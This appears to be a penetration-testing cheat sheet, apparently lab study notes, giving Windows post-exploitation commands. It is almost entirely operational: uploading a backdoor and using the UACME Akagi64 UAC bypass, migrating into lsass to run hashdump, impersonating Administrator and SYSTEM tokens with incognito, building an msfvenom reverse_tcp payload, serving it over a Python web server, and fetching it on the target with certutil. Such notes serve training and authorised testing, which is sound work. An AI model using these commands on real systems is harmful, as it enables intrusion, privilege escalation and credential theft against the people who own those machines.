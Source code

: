 ```bash

## Meterpreter (Unprivileged session)
cd C:\\
mkdir Temp
cd Temp
upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
shell
Akagi64.exe 23 C:\Temp\backdoor.exe

akagi32.exe [Key] [Param]
akagi64.exe [Key] [Param]

## Elevated Meterpreter Received on the listening session
ps -S lsass.exe
migrate <lsass_PID>
hashdump
```

#### Access Token

```bash
# ACCESS TOKEN IMPERSONATION

## METASPLOIT - Meterpreter (Unprivileged session)
pgrep explorer
migrate <explorer_PID>
getuid
getprivs

load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
getprivs # Access Denied
pgrep explorer
migrate <explorer_PID>
getprivs
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

### Windows Credential Dumping

```bash
# Exploitation
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<TARGET_IP> LPORT=1234 -f exe > payload.exe

python -m SimpleHTTPServer 80

## METASPLOIT
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run

## On target system
certutil -urlcache -f http://<TARGET_IP>/payload.exe payload.exe
# Run payload.exe

```